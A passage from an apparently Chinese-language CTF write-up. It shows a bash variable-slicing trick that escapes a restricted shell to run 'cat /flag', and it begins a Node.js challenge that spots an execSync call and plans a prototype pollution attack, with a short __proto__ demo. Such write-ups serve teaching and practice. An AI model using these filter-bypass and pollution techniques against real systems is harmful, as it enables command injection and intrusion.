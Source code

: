 ```bash
cat: libx32: No such file or directory
cat: media: No such file or directory
cat: mnt: No such file or directory
cat: opt: No such file or directory
cat: players: No such file or directory
cat: proc: No such file or directory
cat: root: No such file or directory
cat: run: No such file or directory
cat: sbin: No such file or directory
cat: srv: No such file or directory
cat: sys: No such file or directory
cat: tmp: No such file or directory
cat: usr: No such file or directory
cat: var: No such file or directory
PowerfulShell@hackergame>
```

### 后记

其实可以简单点，`~+` 就是 `~`；我们可以直接用 bash 执行任意命令，比 `cat /` 更强大了。

所以，我又做了一遍。

```bash
PowerfulShell@hackergame> _1=~
PowerfulShell@hackergame> _2=${_1:2:1}
PowerfulShell@hackergame> _3=${_1:7:1}
PowerfulShell@hackergame> _4=`$_2$_3 ${_1:1-1:1}`
PowerfulShell@hackergame> _5=${_4:1-1:1}
PowerfulShell@hackergame> _6=${_4:19:1}
PowerfulShell@hackergame> _7=${_4:71-1:1}
PowerfulShell@hackergame> _8=${_4:22:1}
PowerfulShell@hackergame> $_5$_6$_7$_8
cat /flag
flag{N0w_I_Adm1t_ur_tru1y_5He11_m4ster_??????????}
```

- `flag{N0w_I_Adm1t_ur_tru1y_5He11_m4ster_??????????}`

## Node.js is Web Scale

Web，熟悉的味道。

打开题目，我花了好久才注意到，最下面有个 `View source code` 的链接 🌚。好吧，我们来看看代码怎么写的。

在 `/execute` 路由可以看到，它用了 `execSync`。那么这里应该就是突破口了。尤其是它的注释写了 `obviously safe` 来挑衅，只能是这里了。

不过它执行的是 `cmds` 对象中预设好的命令，有什么办法我们可以增加新的命令吗？尤其我们可以看到 `/set` 路由，它帮我们处理好了深层属性的设置。噢，原型链攻击！

```js
const a = {}
a.__proto__.evil = 996
a.evil // 996
```
